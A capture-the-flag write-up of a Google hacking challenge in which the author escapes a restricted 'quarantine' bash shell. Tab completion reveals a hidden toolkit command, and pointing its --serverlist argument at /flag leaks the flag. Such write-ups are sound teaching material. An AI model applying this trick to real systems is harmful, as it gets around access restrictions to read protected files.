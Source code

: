 # Episode 2: Challenge 3

## Description

> Welcome to the shell. See if you can leave. socat FILE:`tty`,raw,echo=0 TCP:quarantine-shell.h4ck.ctfcompetition.com:1337
> 
> Hint: How can you ask the shell for which commands are available? 

## Solution

Let's connect to the server:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP002/Challenge_03]
└─$ socat FILE:`tty`,raw,echo=0 TCP:quarantine-shell.h4ck.ctfcompetition.com:1337
== proof-of-work: disabled ==
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell

   ___                                    _    _                ____   _            _  _
  / _ \  _   _   __ _  _ __  __ _  _ __  | |_ (_) _ __    ___  / ___| | |__    ___ | || |
 | | | || | | | / _` || `__|/ _` || `_ \ | __|| || `_ \  / _ \ \___ \ | `_ \  / _ \| || |
 | |_| || |_| || (_| || |  | (_| || | | || |_ | || | | ||  __/  ___) || | | ||  __/| || |
  \__\_\ \__,_| \__,_||_|   \__,_||_| |_| \__||_||_| |_| \___| |____/ |_| |_| \___||_||_|

The D&R team has detected some suspicious activity on your account and has quarantined you while they investigate
942 days stuck at ~
~ $ ls
command blocked: ls
check completions to see available commands
~ $ echo Test
command blocked: echo Test
check completions to see available commands
~ $ pwd
command blocked: pwd
check completions to see available commands
~ $
```

Looks like a restricted shell with many blocked commands. As suggested, we'll try the completions to see the available commands:

```console
check completions to see available commands
~ $
!                    enable               quarantine_protocol
.                    esac                 read
:                    eval                 readarray
[                    exec                 readonly
[[                   exit                 return
]]                   export               select
_dnr_toolkit         false                set
alias                fc                   shift
bg                   fg                   shopt
bind                 fi                   source
break                for                  suspend
builtin              function             test
caller               getopts              then
case                 hash                 time
cd                   help                 times
command              history              trap
compgen              if                   true
complete             in                   type
compopt              jobs                 typeset
continue             kill                 ulimit
coproc               let                  umask
declare              local                unalias
dirs                 logout               unset
disown               mapfile              until
do                   popd                 wait
done                 printf               while
echo                 pushd                {
elif                 pwd                  }
else                 quarantine
```

Well, actually, most of those were blocked as well:

```console
~ $ read
command blocked: read
check completions to see available commands
~ $
~ $ help
command blocked: help
check completions to see available commands
~ $ printf
command blocked: printf
check completions to see available commands
```

The only ones that weren't really blocked were:

```console
~ $ time
command blocked: false
check completions to see available commands

real    0m0.000s
user    0m0.000s
sys     0m0.000s
~ $ coproc
bash: syntax error near unexpected token `newline'
```

However, no matter what I tried, couldn't get them to do anything useful.

It was possible to locate the flag with tab completion, but nothing more.

```console
~ $ /
bin/                lib32/              root/
boot/               lib64/              run/
default_serverlist  libx32/             sbin/
dev/                login.sh            srv/
dnr_helpers.sh      media/              sys/
etc/                mnt/                tmp/
flag                opt/                usr/
home/               proc/               var/
lib/                quarantine.sh
```

At this point I got a hint from creator which allowed me to proceed. The hint was to look for something unusual in the command list, and try tab completions.

This leads us to:

```console
~ $ _dnr_toolkit
command blocked: _dnr_toolkit
check completions to see available commands
~ $ _dnr_toolkit
collectbrowserhistory  help                   quarantineuser
collectfiles           launchbinary           sendkeepalive
collectnetworkinfo     listprocesses
hashfile               osquery
```

Using tab completion, we can get suggestions for the command. The most useful one seemed to be:

```console
~ $ _dnr_toolkit sendkeepalive
reading serverlist from /default_serverlist
invalid server spec: testspec

email:dnr-notifications@domain.com  server:investigator-1-xyz
server:central-host-xyz             server:local-controller-xyz
```

Notice how it takes the server list from `/default_serverlist`, and (presumably) provides us with suggestions from within that file. 
What if we try to point it to `/flag` instead? After a few attempts, we find out that `--serverlist` is the argument used to point the program to a different server list.

```console
~ $ _dnr_toolkit sendkeepalive --serverlist /flag
reading serverlist from /flag
invalid server spec: https://h4ck1ng.google/solve/Y0U_c0mpL3T3_M3
```

Tab completion FTW!